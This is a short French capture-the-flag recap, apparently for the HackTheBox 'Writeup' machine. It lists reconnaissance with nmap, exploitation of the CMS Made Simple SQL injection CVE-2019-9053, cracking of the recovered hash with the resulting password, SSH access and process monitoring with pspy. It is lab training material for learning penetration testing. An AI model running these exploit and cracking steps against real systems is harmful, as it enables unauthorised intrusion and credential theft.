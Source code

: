             </li>
        </ul>
    </div>
</div>

---

## 📝 Récapitulatif des commandes

### 🔍 Phase 1 : Reconnaissance

```bash
# 1. Scan de ports
nmap -Pn -p- --min-rate=1000 -T4 10.10.10.138
ports=$(nmap -Pn -p- --min-rate=1000 -T4 10.10.10.138 | grep '^[0-9]' | cut -d'/' -f1 | tr '\n' ',' | sed s/,$//)  
nmap -p$ports -sC -sV 10.10.10.138
# → Ports 22, 80 ouverts + robots.txt

# 2. Découverte
curl http://10.10.10.138/robots.txt
# → /writeup/ (CMS Made Simple)
```

### 💥 Phase 2 : Exploitation CVE-2019-9053

```bash
# 1. Exploitation SQLi
python cve.py -u http://10.10.10.138/writeup/ --crack -w best110.txt
# → User: jkr, Hash+Salt récupérés

# 2. Cracking
echo '62def4866937f08cc13bab43bb14e6f7:5a599ef579066807' > hash
hashcat -m 20 -a 0 hash /usr/share/wordlists/rockyou.txt
# → Password: raykayjay9
```

### 🔑 Phase 3 : Accès SSH

```bash
ssh jkr@10.10.10.138
cat ~/user.txt
id  # → groupe staff
```

### 🔍 Phase 4 : Monitoring

```bash
# Transfer pspy
scp pspy32 jkr@10.10.10.138:/tmp
chmod +x /tmp/pspy32
/tmp/pspy32
# → run-parts exécuté par root
```
